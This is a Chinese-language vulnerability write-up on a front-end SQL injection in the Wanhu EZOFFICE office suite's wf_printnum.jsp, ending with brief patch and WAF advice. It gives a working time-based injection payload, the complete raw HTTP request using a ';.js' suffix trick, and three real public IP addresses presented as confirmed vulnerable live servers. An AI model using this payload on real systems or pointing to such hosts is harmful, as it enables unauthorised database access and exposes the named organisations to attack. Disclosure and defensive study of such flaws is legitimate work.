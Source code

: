#  万户EZOFFICE 前台SQL注入漏洞

## 漏洞描述

万户EZOFFICE是一款全面的办公套件软件，旨在提供企业和个人用户所需的各种办公工具和功能。它集成了多个应用程序，包括文档处理、电子表格、演示文稿、日历、邮件等，以满足用户的办公需求。万户EZOFFICE前台wf_printnum.jsp类中存在SQL注入，可导致系统受到严重危害。

## 漏洞复现介绍

访问对应产品链接，进行url拼接：

主机+端口+ defaultroot/platform/bpm/work_flow/operate/wf_printnum.jsp;.js?recordId=1;WAITFOR DELAY '0:0:5'--

出现如下图所示，则存在SQL注入漏洞：

![img](./pic/1.png)

![img](./pic/2.png)

SQLmap检测如下：

![img](./pic/3.png)

## 漏洞数据包

  GET  /defaultroot/platform/bpm/work_flow/operate/wf_printnum.jsp;.js?recordId=1  HTTP/1.1  Host: X.X.X.X:7001  User-Agent:  Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101  Firefox/121.0  Accept:  text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  Accept-Language:  zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  Accept-Encoding:  gzip, deflate  Connection:  close  Cookie:  LocLan=zh_CN;  JSESSIONID=yPtLlv5NtD5q2VmqyRHyTht93mpTMT0WKCggTj2KksNgrQCQ7G41!-1904458285  Upgrade-Insecure-Requests:  1  

 

## 复现案例1

http://117.174.106.162:7001/defaultroot/platform/bpm/work_flow/operate/wf_printnum.jsp;.js?recordId=1

访问链接为：

![img](./pic/4.png)

存在漏洞：

![img](./pic/5.png)

## 复现案例2

http://183.239.29.66:7001/defaultroot/platform/bpm/work_flow/operate/wf_printnum.jsp;.js?recordId=1

访问链接为：

![img](./pic/6.png)

存在漏洞：

![img](./pic/7.png)

## 复现案例3

http://117.35.203.90:7001/defaultroot/platform/bpm/work_flow/operate/wf_printnum.jsp;.js?recordId=1

访问漏洞链接：

![img](./pic/8.png)

存在漏洞：

![img](./pic/9.png)

## 临时解决方案

将对应接口设置为用户不可访问；可使用云WAF进行接口限制，但是存在绕过风险，请尽快前往官网下载安装升级补丁。

## 正式解决方案

官方已发布补丁修复了该漏洞，可下载参考链接中的官方补丁包进行升级。补丁获取地址：https://www.whir.net/